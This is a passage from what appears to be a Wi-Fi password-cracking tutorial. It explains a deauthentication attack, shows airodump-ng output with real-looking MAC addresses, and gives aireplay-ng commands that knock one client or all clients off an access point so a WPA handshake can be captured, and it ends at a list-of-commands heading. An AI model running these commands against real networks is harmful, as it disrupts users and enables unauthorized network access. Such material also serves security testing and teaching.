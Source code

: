 ## Deauth Attack

A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to crack. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect, providing you with a 4-way handshake if you are listening with `airodump-ng`. 

Use `airodump-ng` to monitor a specific access point (using `-c channel --bssid MAC`) until you see a client (`STATION`) connected. A connected client look something like this, where is `64:BC:0C:48:97:F7` the client MAC.

```
 CH  6 ][ Elapsed: 2 mins ][ 2017-07-23 19:15 ]                                         
                                                                                                                                           
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  -19  75     1043      144   10   6  54e  WPA2 CCMP   PSK  ASUS                                                         
                                                                                                                                           
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                                 
                                                                                                                                           
 9C:5C:8E:C9:AB:C0  64:BC:0C:48:97:F7  -37    1e- 1e     4     6479  ASUS
```

Now, leave `airodump-ng` running and open a new terminal. We will use the `aireplay-ng` command to send fake deauth packets to our victim client, forcing it to reconnect to the network and hopefully grabbing a handshake in the process.

```bash
# -0 2 specifies we would like to send 2 deauth packets. Increase this number
# if need be with the risk of noticeably interrupting client network activity
# -a is the MAC of the access point
# -c is the MAC of the client
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0
```

You can optionally broadcast deauth packets to all connected clients with:

```bash
# not all clients respect broadcast deauths though
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 mon0
``` 

Once you've sent the deauth packets, head back over to your `airodump-ng` process, and with any luck you should now see something like this at the top right: `[ WPA handshake: 9C:5C:8E:C9:AB:C0`. Now that you've captured a handshake you should be ready to [crack the network password](#cracking-the-network-password).

## List of Commands

Below is a list of all of the commands needed to crack a WPA/WPA2 network, in order, with minimal explanation.
